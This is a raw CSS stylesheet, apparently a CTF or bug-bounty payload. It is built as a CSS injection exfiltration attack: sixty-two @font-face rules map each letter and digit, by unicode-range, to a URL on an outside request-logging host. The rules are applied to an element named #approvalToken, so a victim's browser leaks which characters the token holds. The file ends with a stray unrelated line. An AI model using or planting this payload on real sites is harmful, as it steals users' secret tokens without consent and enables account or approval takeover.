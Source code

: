 @font-face{font-family:'f_a';src:url('//newi7t6m.requestrepo.com?c=a');unicode-range:U+61 }
@font-face{font-family:'f_b';src:url('//newi7t6m.requestrepo.com?c=b');unicode-range:U+62 }
@font-face{font-family:'f_c';src:url('//newi7t6m.requestrepo.com?c=c');unicode-range:U+63 }
@font-face{font-family:'f_d';src:url('//newi7t6m.requestrepo.com?c=d');unicode-range:U+64 }
@font-face{font-family:'f_e';src:url('//newi7t6m.requestrepo.com?c=e');unicode-range:U+65 }
@font-face{font-family:'f_f';src:url('//newi7t6m.requestrepo.com?c=f');unicode-range:U+66 }
@font-face{font-family:'f_g';src:url('//newi7t6m.requestrepo.com?c=g');unicode-range:U+67 }
@font-face{font-family:'f_h';src:url('//newi7t6m.requestrepo.com?c=h');unicode-range:U+68 }
@font-face{font-family:'f_i';src:url('//newi7t6m.requestrepo.com?c=i');unicode-range:U+69 }
@font-face{font-family:'f_j';src:url('//newi7t6m.requestrepo.com?c=j');unicode-range:U+6A }
@font-face{font-family:'f_k';src:url('//newi7t6m.requestrepo.com?c=k');unicode-range:U+6B }
@font-face{font-family:'f_l';src:url('//newi7t6m.requestrepo.com?c=l');unicode-range:U+6C }
@font-face{font-family:'f_m';src:url('//newi7t6m.requestrepo.com?c=m');unicode-range:U+6D }
@font-face{font-family:'f_n';src:url('//newi7t6m.requestrepo.com?c=n');unicode-range:U+6E }
@font-face{font-family:'f_o';src:url('//newi7t6m.requestrepo.com?c=o');unicode-range:U+6F }
@font-face{font-family:'f_p';src:url('//newi7t6m.requestrepo.com?c=p');unicode-range:U+70 }
@font-face{font-family:'f_q';src:url('//newi7t6m.requestrepo.com?c=q');unicode-range:U+71 }
@font-face{font-family:'f_r';src:url('//newi7t6m.requestrepo.com?c=r');unicode-range:U+72 }
@font-face{font-family:'f_s';src:url('//newi7t6m.requestrepo.com?c=s');unicode-range:U+73 }
@font-face{font-family:'f_t';src:url('//newi7t6m.requestrepo.com?c=t');unicode-range:U+74 }
@font-face{font-family:'f_u';src:url('//newi7t6m.requestrepo.com?c=u');unicode-range:U+75 }
@font-face{font-family:'f_v';src:url('//newi7t6m.requestrepo.com?c=v');unicode-range:U+76 }
@font-face{font-family:'f_w';src:url('//newi7t6m.requestrepo.com?c=w');unicode-range:U+77 }
@font-face{font-family:'f_x';src:url('//newi7t6m.requestrepo.com?c=x');unicode-range:U+78 }
@font-face{font-family:'f_y';src:url('//newi7t6m.requestrepo.com?c=y');unicode-range:U+79 }
@font-face{font-family:'f_z';src:url('//newi7t6m.requestrepo.com?c=z');unicode-range:U+7A }
@font-face{font-family:'f_A';src:url('//newi7t6m.requestrepo.com?c=A');unicode-range:U+41 }
@font-face{font-family:'f_B';src:url('//newi7t6m.requestrepo.com?c=B');unicode-range:U+42 }
@font-face{font-family:'f_C';src:url('//newi7t6m.requestrepo.com?c=C');unicode-range:U+43 }
@font-face{font-family:'f_D';src:url('//newi7t6m.requestrepo.com?c=D');unicode-range:U+44 }
@font-face{font-family:'f_E';src:url('//newi7t6m.requestrepo.com?c=E');unicode-range:U+45 }
@font-face{font-family:'f_F';src:url('//newi7t6m.requestrepo.com?c=F');unicode-range:U+46 }
@font-face{font-family:'f_G';src:url('//newi7t6m.requestrepo.com?c=G');unicode-range:U+47 }
@font-face{font-family:'f_H';src:url('//newi7t6m.requestrepo.com?c=H');unicode-range:U+48 }
@font-face{font-family:'f_I';src:url('//newi7t6m.requestrepo.com?c=I');unicode-range:U+49 }
@font-face{font-family:'f_J';src:url('//newi7t6m.requestrepo.com?c=J');unicode-range:U+4A }
@font-face{font-family:'f_K';src:url('//newi7t6m.requestrepo.com?c=K');unicode-range:U+4B }
@font-face{font-family:'f_L';src:url('//newi7t6m.requestrepo.com?c=L');unicode-range:U+4C }
@font-face{font-family:'f_M';src:url('//newi7t6m.requestrepo.com?c=M');unicode-range:U+4D }
@font-face{font-family:'f_N';src:url('//newi7t6m.requestrepo.com?c=N');unicode-range:U+4E }
@font-face{font-family:'f_O';src:url('//newi7t6m.requestrepo.com?c=O');unicode-range:U+4F }
@font-face{font-family:'f_P';src:url('//newi7t6m.requestrepo.com?c=P');unicode-range:U+50 }
@font-face{font-family:'f_Q';src:url('//newi7t6m.requestrepo.com?c=Q');unicode-range:U+51 }
@font-face{font-family:'f_R';src:url('//newi7t6m.requestrepo.com?c=R');unicode-range:U+52 }
@font-face{font-family:'f_S';src:url('//newi7t6m.requestrepo.com?c=S');unicode-range:U+53 }
@font-face{font-family:'f_T';src:url('//newi7t6m.requestrepo.com?c=T');unicode-range:U+54 }
@font-face{font-family:'f_U';src:url('//newi7t6m.requestrepo.com?c=U');unicode-range:U+55 }
@font-face{font-family:'f_V';src:url('//newi7t6m.requestrepo.com?c=V');unicode-range:U+56 }
@font-face{font-family:'f_W';src:url('//newi7t6m.requestrepo.com?c=W');unicode-range:U+57 }
@font-face{font-family:'f_X';src:url('//newi7t6m.requestrepo.com?c=X');unicode-range:U+58 }
@font-face{font-family:'f_Y';src:url('//newi7t6m.requestrepo.com?c=Y');unicode-range:U+59 }
@font-face{font-family:'f_Z';src:url('//newi7t6m.requestrepo.com?c=Z');unicode-range:U+5A }
@font-face{font-family:'f_0';src:url('//newi7t6m.requestrepo.com?c=0');unicode-range:U+30 }
@font-face{font-family:'f_1';src:url('//newi7t6m.requestrepo.com?c=1');unicode-range:U+31 }
@font-face{font-family:'f_2';src:url('//newi7t6m.requestrepo.com?c=2');unicode-range:U+32 }
@font-face{font-family:'f_3';src:url('//newi7t6m.requestrepo.com?c=3');unicode-range:U+33 }
@font-face{font-family:'f_4';src:url('//newi7t6m.requestrepo.com?c=4');unicode-range:U+34 }
@font-face{font-family:'f_5';src:url('//newi7t6m.requestrepo.com?c=5');unicode-range:U+35 }
@font-face{font-family:'f_6';src:url('//newi7t6m.requestrepo.com?c=6');unicode-range:U+36 }
@font-face{font-family:'f_7';src:url('//newi7t6m.requestrepo.com?c=7');unicode-range:U+37 }
@font-face{font-family:'f_8';src:url('//newi7t6m.requestrepo.com?c=8');unicode-range:U+38 }
@font-face{font-family:'f_9';src:url('//newi7t6m.requestrepo.com?c=9');unicode-range:U+39 }

#approvalToken{font-family:'f_a','f_b','f_c','f_d','f_e','f_f','f_g','f_h','f_i','f_j','f_k','f_l','f_m','f_n','f_o','f_p','f_q','f_r','f_s','f_t','f_u','f_v','f_w','f_x','f_y','f_z','f_A','f_B','f_C','f_D','f_E','f_F','f_G','f_H','f_I','f_J','f_K','f_L','f_M','f_N','f_O','f_P','f_Q','f_R','f_S','f_T','f_U','f_V','f_W','f_X','f_Y','f_Z','f_0','f_1','f_2','f_3','f_4','f_5','f_6','f_7','f_8','f_9'; display: block !important;}

Sex 4x3
